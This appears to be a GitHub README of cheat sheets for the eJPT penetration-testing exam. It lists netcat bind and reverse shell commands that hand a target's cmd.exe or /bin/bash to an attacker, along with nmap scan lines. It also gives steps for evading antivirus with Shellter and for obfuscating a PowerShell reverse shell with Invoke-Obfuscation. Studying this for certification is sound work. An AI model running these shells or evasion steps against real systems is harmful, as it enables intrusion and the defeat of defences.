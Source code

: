 <p align="center">
    <img src="LogoBiggerBW.png" alt="BPM Circuits" width="300" />
</p>

<p align="center">
  eJPT-CheatSheets<br>
  Bartosz Pokrywka
</p>

<p align="center">
    Usefull info and commands for eJPT cert exam
</p>

- [Shells](#shells)
  - [Netcat Fundamentals](#netcat-fundamentals)
  - [Bind Shells](#bind-shells)
  - [Reverse Shells](#reverse-shells)
  - [Reverse Shell Cheatsheet](#reverse-shell-cheatsheet)
- [Port Scanning and Enumeration](#port-scanning-and-enumeration)
  - [NMAP](#nmap)
  - [PHP](#php)
- [AV Evasion & Obfuscation](#av-evasion--obfuscation)
  - [Shellter](#shellter)
  - [PowerShell Code](#powershell-code)

# Vulnerability Scanning

## Shells

### Netcat Fundamentals

Can be used for:

- Banner Grabbing
- Port Scanning
- Transfering Files
- Bind/Reverse Shells

**Setup listener:**

    > nc -nvlp <port>

**Setup connection:**

    > nc -nv <IP> <port>

### Bind Shells

Downside of bind shell is that the firewall will probably block the connection.

**Target system:**

    > .\nc.exe -nvlp <port> -e cmd.exe

**Attacker system:**

    > nc -nv <IP> <port>

OR

**Target system:**

    > nc -nvlp <port> -c /bin/bash

**Attacker system:**

    > .\nc.exe -nv <IP> <port>

### Reverse Shells

Better thing: Attacker (Netcat Listener) <---- Target (Netcat Client)

**Target system:**

    > .\nc.exe -nv <port> -e cmd.exe

**Attacker system:**

    > nc -nvlp 1234

### Reverse Shell Cheatsheet

- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

- https://www.revshells.com

## Port Scanning and Enumeration

### NMAP

**Basic version scan:**

    > nmap <IP> -sV

**10k ports scan:**

    > nmap <IP> -T4 -PA -sC -sV -p 1-10000 -oX nmap_10k

**Scan UDP ports:**

    > nmap <IP> -sU -sV

### PHP

Sometimes there's a file:

    > phpinfo.php

Look for it...

## AV Evasopm & Obfuscation

### Shellter

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.

    > https://www.shellterproject.com

    > sudo apt install shellter -y

It requires Wine.

    > sudo wine shellter.exe

### PowerShell Code

- Invoke-Obfuscation is an open source PowerShell v2.0+ compatible PowerShell command and script obfuscator.

GitHub Repo:

    > https://github.com/danielbohannon/Invoke-Obfuscation

On Linux you need to install powershell in this case.

    > sudo apt install powershell -y

As the payload use for example:

    > https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell

To load it:

    > SET SCRIPTPATH /path/to/your/shell.ps1

Choose option like "AST" or anything you like.

There are some options for AST, you can choose ALL ;)

You can also encode it:

    > ENCODE

For ASCII choose:

    > 1

Then copy the result into the file called like "obfuscated.ps1"...




